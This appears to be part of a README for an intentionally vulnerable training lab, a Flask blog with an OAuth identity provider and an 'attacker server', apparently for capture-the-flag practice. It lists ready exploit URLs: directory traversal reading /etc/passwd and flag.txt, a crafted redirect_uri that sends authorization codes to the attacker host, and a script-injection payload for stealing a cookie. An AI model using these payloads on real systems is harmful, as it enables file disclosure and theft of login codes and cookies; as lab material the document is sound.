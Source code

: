 3. **Run the Applications**:

   - **Main App** (`app.py`):

     ```bash
     python app.py
     ```

     - Runs on `http://localhost:5000`.

   - **Identity Provider** (`idp.py`):

     ```bash
     python idp.py
     ```

     - Runs on `http://localhost:5001`.

   - **Attacker Server** (optional, for testing):

     ```bash
     python attacker.py
     ```

     - Runs on `http://localhost:8000`

## Usage

- **Access Blog Posts**:

  - Visit `http://localhost:5000/view?page=post1.html` to see "The Art of Secure Authentication."
  - Visit `http://localhost:5000/view?page=post2.html` to see "Ethical Hacking 101."

- **Trigger Vulnerabilities**:

  - **LFI**: Attempt to access sensitive files (e.g., `/etc/passwd`) via directory traversal in the `page` parameter.
  - **OAuth**: Use the `/login` endpoint to initiate an OAuth flow and manipulate the `redirect_uri` to capture authorization codes.
  - **XSS**: Use the `/search` endpoint with a malicious query to inject scripts.

- **Exploit the Vulnerabilities**:

  - **LFI**: Use a URL like `http://localhost:5000/view?page=../../../../etc/passwd` to read system files.
  - **OAuth**: Craft a malicious URL (e.g., `http://localhost:5001/auth?client_id=blogsphere_client&redirect_uri=http://localhost:8000/attacker&response_type=code&state=attacker_state`) to capture the authorization code and access the dashboard.
  - **XSS**: Use a URL like `http://localhost:5000/search?query=<script>alert('XSS')</script>` to execute a script and potentially steal the flag cookie.

## Vulnerabilities

### 1. Local File Inclusion (LFI)

- **Location**: `/view` endpoint in `app.py`.
- **Description**: The endpoint uses `os.path.abspath` without proper validation, allowing directory traversal to access arbitrary files (e.g., `/etc/passwd`, `flag.txt`).
- **Exploitation**:
  - Visit `http://localhost:5000/view?page=../etc/passwd` to read `/etc/passwd`.
  - Access `flag.txt` with `http://localhost:5000/view?page=../flag.txt`.

